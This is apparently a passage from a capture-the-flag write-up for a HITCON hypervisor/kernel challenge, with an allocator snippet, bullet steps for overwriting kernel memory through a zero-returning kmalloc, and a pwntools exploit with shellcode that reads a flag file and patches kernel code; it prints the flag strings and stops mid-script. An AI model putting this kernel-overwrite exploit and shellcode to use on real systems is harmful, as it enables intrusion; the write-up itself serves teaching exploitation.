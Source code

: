 ```c
    arena.top_size -= nb;
    arena.top->size = nb;
    new_top = arena.top + nb;
    ret = arena.top + 16;
    arena.top = new_top;
  }
  return ret;
}
```
* Just give a size which lager than `arena.top_size`, it will return 0.
* `mmap(0, 0x1000000, 7)` -> `arena.top_size` remain the size < 0x1000000.
* `sys_read( 0, buf, 0x1000000 )` -> `kmalloc` in `hypercall read` will return 0.
* Pass 0 to hypervisor, `hypercall read handler` will do `read( 0, &vm->mem + 0 , 0x1000000 )`.
* Now we can overwrite the whole kernel space! 
* For flag2, I overwrite the opcodes in  kernel `sys_open` which do checking filename with `nop`.
* ORW flag2.
* exploit:
```python
#!/usr/bin/env python
from pwn import *

# hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
# hitcon{take_out_all_memory,_take_away_your_soul}

context.arch = 'amd64'
host , port = '35.200.23.198' , 31733
y = remote( host , port )

kernel = open( './kernel.bin' ).read()

s = '31a-\\a:2107732+a;,' + '\x90' * 70
s += asm(
    '''
    mov rdi, 0
    mov rsi, 0x1000000
    mov rdx, 7
    mov r10, 16
    mov r8, -1
    mov r9, 0
    mov rax, 8
    inc rax
    syscall

    mov rbp, rax
    push rsp
    ''' +
    shellcraft.write( 1 , 'rsp' , 8 ) + 
    shellcraft.read( 0 , 'rbp' , 0x1000000 ) +
    shellcraft.pushstr( 'flag2\x00' ) + 
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

y.sendlineafter( 'down.' , s )
y.recvline()
user_stack = u64( y.recv(8) )
success( 'User stack -> %s' % hex( user_stack ) )

k_mod = kernel[:0x14d] + p64( 0x8002000000 ) + p64( user_stack + 0x100 ) + kernel[0x15d:0x9a4] + '\x90' * 0x75

sleep(1)
```
